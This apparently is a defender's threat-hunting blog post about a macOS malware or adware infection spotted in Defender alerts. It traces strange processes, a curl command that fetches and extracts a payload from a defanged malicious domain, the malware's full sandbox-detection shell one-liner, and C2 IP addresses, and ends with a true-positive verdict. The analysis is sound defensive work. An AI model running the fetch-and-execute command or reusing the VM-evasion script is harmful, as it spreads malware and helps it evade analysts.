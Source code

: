 ```yaml
---
title: Mac Malware?
date: 2022-05-19 11:39 +0200
categories: [Hunting, MDE]
tags: [mde, hunting, true positive]
---
```


Today we investigate some strange discovery actions by processes on a macbook

## The Alert

In the essence this alert was showing multiple different processes doing very similar actions, for the sake of simplicity we will focus on one.
In most cases the process [xpcproxy](https://www.unix.com/man-page/osx/8/xpcproxy/) was used to run a sub process which in turn started some bash commands.
For this investigation I put xpcproxy out of scope as it did not seem to be part of a malicious execution chain as it is part of the OS (my mac knowledge is basic)
This xpcproxy would run an executable for example apadecoded and this in turn would run new processes, for example:

```bash
/bin/sh /var/folders/zz/zyxvpxvq6csfxvn_n0000000000000/T/451CEB63-C438-40C3-899F-0BE4F425F074
```

apadecoded itself looks already strange enough and is also found on VT, but what is this "451CEB63-C438-40C3-899F-0BE4F425F074"?
here again, for simplicity I focus on one of these odd looking processes, there are a bucket load of them.

This executable runs a download via curl of some additional code from [external](https://www.virustotal.com/gui/url/602823beeb1e3e8c4b09c1c4defeb5c6381620e6a6b9be9c3120df12c21c0f0e) and extracts it to "/private/var/tmp/helpexecd/helpexecd"

```bash
/usr/bin/curl -s -L -o /var/tmp/helpexecd.tgz hxxp://cdn[.]eniqdix[.]icu/static/s3/exec6625/helpexecd[.]tgz
tar -xzf /var/tmp/helpexecd.tgz -C /var/tmp/helpexecd/
```

After that the archive helpexecd.tgz is extracted to /var/tmp/helpexecd/ and executed.
This new process helpexecd then runs the following command (amongst other things)
```bash
/bin/sh -c 'readonly VM_LIST="VirtualBox\|Oracle\|VMware\|Parallels\|qemu";is_hwmodel_vm(){ ! sysctl -n hw.model|grep "Mac">/dev/null;};is_ram_vm(){(($(($(sysctl -n hw.memsize)/ 1073741824))<4));};is_ped_vm(){ local -r ped=$(ioreg -rd1 -c IOPlatformExpertDevice);echo "${ped}"|grep -e "board-id" -e "product-name" -e "model"|grep -qi "${VM_LIST}"||echo "${ped}"|grep "manufacturer"|grep -v "Apple">/dev/null;};is_vendor_name_vm(){ ioreg -l|grep -e "Manufacturer" -e "Vendor Name"|grep -qi "${VM_LIST}";};is_hw_data_vm(){ system_profiler SPHardwareDataType 2>&1 /dev/null|grep -e "Model Identifier"|grep -qi "${VM_LIST}";};is_vm(){ is_hwmodel_vm||is_ram_vm||is_ped_vm||is_vendor_name_vm||is_hw_data_vm;};main(){ is_vm&&echo 1||echo 0;};main "${@}"'
```

On closer inspection and a bit of unwrapping, it looks a lot like this helpexecd is trying to figure out if it's running in a sandbox.
It checks for what hardware it's running on, good indication of sandbox evasion.

```bash
/bin/sh -c 'readonly VM_LIST="VirtualBox\|Oracle\|VMware\|Parallels\|qemu";is_hwmodel_vm(){
 ! sysctl -n hw.model|grep "Mac">/dev/null;};is_ram_vm(){
    (($(($(sysctl -n hw.memsize)/ 1073741824))<4));};is_ped_vm(){
 local -r ped=$(ioreg -rd1 -c IOPlatformExpertDevice);echo "${
    ped}"|grep -e "board-id" -e "product-name" -e "model"|grep -qi "${
    VM_LIST}"||echo "${
    ped}"|grep "manufacturer"|grep -v "Apple">/dev/null;};is_vendor_name_vm(){
 ioreg -l|grep -e "Manufacturer" -e "Vendor Name"|grep -qi "${
    VM_LIST}";};is_hw_data_vm(){
 system_profiler SPHardwareDataType 2>&1 /dev/null|grep -e "Model Identifier"|grep -qi "${
    VM_LIST}";};is_vm(){
 is_hwmodel_vm||is_ram_vm||is_ped_vm||is_vendor_name_vm||is_hw_data_vm;};main(){
 is_vm&&echo 1||echo 0;};main "${
    @}"'
```

## Flowchart
{% include mermaid_start.liquid %}
flowchart TD;
kernel_task --> launchd;
launchd --> xpcproxy;
xpcproxy --> |run| apadecoded;
apadecoded --> 451CEB63-C438-40C3-899F-0BE4F425F074;
apadecoded --> |run| DFBDC5FD-3F69-472A-832B-C8C394560BC4;
apadecoded --> AF0DBE7E-0247-4D2C-8D8D-36BDB5C5EF09;
451CEB63-C438-40C3-899F-0BE4F425F074 --> curl;
DFBDC5FD-3F69-472A-832B-C8C394560BC4 --> |run| curl;
AF0DBE7E-0247-4D2C-8D8D-36BDB5C5EF09 --> curl;
curl --> cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz;
cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz --> |download| 89.187.162.142;
cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz --> |download| 89.187.162.134;
89.187.162.142 --> |download| /private/var/tmp/helpexecd/helpexecd.tgz;
89.187.162.134 --> |download| /private/var/tmp/helpexecd/helpexecd.tgz;
/private/var/tmp/helpexecd/helpexecd.tgz --> |extract && run| helpexecd;
helpexecd --> 35.160.226.50;
helpexecd --> 34.217.226.241;
style apadecoded stroke-dasharray: 88.5 44
style helpexecd stroke-dasharray: 88.5 44
{% include mermaid_end.liquid %}

## Hunting deeper

We have so far focused on one process, but here is a list of a lot more of them.
All of them do the exact same things, which really makes me think that his could be real malware, how exciting.

* canonistical
* noble
* odontolite
* intrinsicalness
* TestDate
* SysUpdater
* leam
* recommitment
* TestDateDaemon
* apadecode
* apadecoded

I now turned to Virustotal to see what they have to say about this.
Once again with focus on one process [apadecoded](https://www.virustotal.com/gui/file/ec791335020a61a36263de7671ab9741d9212cc4692c85abca81862e0daaf82c)
on VT I get a lot of Adware chatter, which in my opinion of course could be true. But some also classify this as outright malware.
It is always difficult to know when to stop an investigation, I would love to analyse this more in a sandbox, but since we usually only have Windows Sandboxes, and I have no patience to build a mac one, let's stop this here.
I think we have enough indicators anyway

## Verdict

| Indicator                                                                   | Thoughts                                                           | Verdict |
|-----------------------------------------------------------------------------|--------------------------------------------------------------------|---------|
| Process starts strangely named Processes                                    | Maybe a kind of obfuscation?                                       | +20%    |
| "Obfuscated" process downloads additional code                              | Very likely bad behaviour                                          | +20%    |
| Newly downloaded code is checks hardware it is running on (sandbox evasion) | Sandbox evasion is often a bad sign                                | +20%    |
| Many processes doing exactly the same                                       | Once again, this looks like something done to confuse the defender | +20%    |
| Virustotal results in Adware or Malware                                     | Honestly, it could be Adware, but I will treat as Malware          | +20%    |

**Verdict: True Positive**

## Next Steps
Reinstall that machine, no patience for cleaning such a mess

